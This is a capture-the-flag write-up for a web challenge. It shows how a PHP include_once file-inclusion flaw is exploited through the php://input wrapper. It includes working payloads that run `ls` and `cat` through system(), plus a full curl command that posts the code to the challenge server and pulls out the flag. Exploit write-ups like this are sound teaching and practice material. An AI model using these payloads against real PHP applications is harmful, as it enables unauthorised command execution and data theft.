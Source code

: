 # Homework 1-3 LabyrinF in Isolation [100 points] (29 solves)
Randomly input something in the text box and press "Load maze", we can find that the url "http://chal.firebird.sh:35004" become "http://chal.firebird.sh:35004/index.php?load=hello". 
Two things need to notice from this change is that, the `.php` and the `?load=`.

Also from the page:
```
Warning:  include_once(hello): failed to open stream: No such file or directory in /var/www/html/index.php on line 35
Warning:  include_once(): Failed opening 'hello' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 35
```
Then, we can search "include_once() vulnerability" and "php pseudo-protocol", to easily get the sense of solving this chal.

By using the tool Postman, add `php://input` after the `?load=`, switch to post method and put `<?php system("ls ../../../");?>` in the body. 
![image](https://github.com/user-attachments/assets/ab839975-26e7-443c-8efe-fb313e0a5e76)

We can see a file called "flag-a410adb35ec243539173d0c03f4f755b", and use the `cat` command with `<?php system("cat ../../../flag-a410adb35ec243539173d0c03f4f755b");?>`to view the flag in the file.

---
Alternatively:
```bash
$ curl -s -X POST "http://chal.firebird.sh:35004/index.php?load=php://input" \
       -d '<?php system("cat ../../../flag-a410adb35ec243539173d0c03f4f755b");?>' \
       -H 'Content-Type: application/x-www-form-urlencoded' | grep -oP "flag{.*}"
```